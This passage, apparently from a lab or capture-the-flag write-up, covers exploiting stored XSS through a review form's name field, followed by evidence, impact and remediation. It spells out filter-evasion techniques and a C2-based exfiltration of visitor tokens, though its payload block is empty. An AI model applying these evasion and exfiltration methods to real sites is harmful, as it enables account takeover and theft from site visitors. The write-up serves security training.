4. Stage 3: the body is locked down, so pivot to the **`name`** field (the hint: "the review form has more than one field"). The `name` text-content reflection executes raw HTML.
5. Defeat the attribute-context constraints in `name`: avoid spaces (use `/` as attribute separators), avoid `>` inside the handler (use `function(){}` not `()=>`), and avoid `'`/`"` (use backticks) so the payload survives both the `title="…"` quoting and HTML tag parsing.
6. Load the C2 toolkit and call the full-compromise function, pointing it at the **reviews-feature** callback path with the **session-correct** level/stage, to exfiltrate data and capture the flag.

### Payload Used

Stored in the **name** field (review body irrelevant):

```html

```

Filter-evasion notes:
- `` — forward slashes act as attribute separators, so the payload contains **no spaces** (spaces would split the value into bogus HTML attributes).
- `function(){…}` instead of an arrow function — avoids `>`, which the HTML parser would read as the end of the `` tag and truncate the handler.
- Backticks for all strings — avoid `'`/`"`, which would collide with the surrounding `title="…"` attribute quoting.
- `import()` dynamically loads the toolkit as a module, then `.then(...)` runs `pwn` after it is available.

Key parameters (discovered, not assumed):
- **callbackPath `/product/reviews/api/track`** — found by probing: a wrong path returns HTTP 404, whereas the correct endpoint returns `{"status":"error"}` until supplied the valid live token. (Reusing Task 1's `/products/sort/api/track` always failed — the track endpoint is feature-specific.)
- **level 4, stage 3** — taken from the server-side scoreboard in the session cookie (`"level_4_stage":3`), not from the exercise number. The server validates against the session's actual level.

### Evidence

- C2 Live Loot Feed recorded a `tokens` capture tagged **Level 4 / Stage 3** with a non-empty tracking value, e.g. `{"tracking":"Q5cAmWf8EwcDPztUmlYIJg","localStorage":"{}","sessionStorage":"{}"}` — demonstrating that the stored payload exfiltrated per-visitor data to the attacker-controlled C2.
- The toolkit's `pwn()` also issued the flag-capture callback, and the server returned:

```json
{"ref":"FLAG{3813fad2d10b442e2fd23a089f3419fb}","status":"tracked"}
```

- Persistence verified: the payload fired automatically on a clean page reload (no re-injection), confirming it is stored server-side and affects every visitor.
- Screenshot: `XSS_Task2_Stage3_Flag_ok.png` (network response showing `status: tracked` and the flag).

### Real-World Impact

Stored XSS on a high-traffic product page is among the most damaging web vulnerabilities. A single injected review would execute in the browser of **every** customer who views that product — potentially millions of executions — with no victim action required. An attacker could:

- Steal session cookies and authentication tokens, enabling mass account takeover (note: in this lab the session cookie was `HttpOnly`, which blocked `document.cookie` theft — a reminder that `HttpOnly` is an effective layer, though it does not stop other exfiltration such as tokens rendered into the DOM).
- Harvest credentials by injecting a convincing fake "session expired" login overlay on the trusted domain.
- Log keystrokes, capturing credit-card and password entry during checkout.
- Hijack form submissions, deface the page, or pivot to internal admin functionality.

Because the payload is persistent, the compromise continues silently until someone detects it and purges the database — so the blast radius grows with every page view.

### Remediation

- **Context-aware output encoding at render time** for every reflected field, including the author `name`. Encode for the exact context: HTML-entity-encode text nodes (`<`, `>`, `&`, `"`, `'`), and never emit user data with a raw/`|safe` filter.
- **Do not trust "short" or "trusted" fields.** The `name` field was the overlooked sink; apply the same encoding to all user-controlled fields, not just the obvious comment body.
- **Replace blocklist filtering with allowlisting / proper encoding.** Stripping `<script>` is trivially bypassed by event-handler elements (``, `<svg onload>`); it is not a defense.
- **Deploy a Content-Security-Policy** with per-response nonces and without `unsafe-inline`; this alone would have blocked the injected inline execution and the dynamic `import()` of the attacker toolkit.
- **Keep secrets out of the DOM.** The `tracking-id` token is readable by any script on the page; store sensitive tokens in `HttpOnly` cookies or server-side state instead of hidden DOM elements.
- **Sanitize on output with a vetted library** (e.g. a well-maintained HTML sanitizer) if rich content must be allowed, rather than rendering raw user HTML.

